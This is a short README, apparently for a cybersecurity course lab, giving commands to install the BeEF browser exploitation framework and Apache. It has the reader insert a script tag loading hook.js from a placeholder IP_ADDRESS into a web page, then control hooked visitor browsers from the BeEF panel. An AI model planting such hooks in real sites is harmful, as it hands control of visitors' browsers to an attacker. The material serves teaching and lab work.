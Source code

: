 # KGM-Cyber-Project1
Cybersecurity course first project in KGM

### Install beef-xss using apt
* sudo apt update
* sudo apt install beef-xss

### Install apache2
* sudo apt install apache2

### Add script to index.html
* cd /var/www/html
* vim index.html
* within the body tag, insert <script>src="http://IP_ADDRESS/hook.js"</script>

### Start beEF and run apache
* beef-xss
    * this will ask to set beEF password

* systemctl enable apache2
* systemctl start apache2
* systemctl status apache2

* Go to IP_ADDRESS/ui/panel and login with beef as username and password as set during beef installation
* Online hooks should be enabled. Click on IP_ADDRESS and perform actions
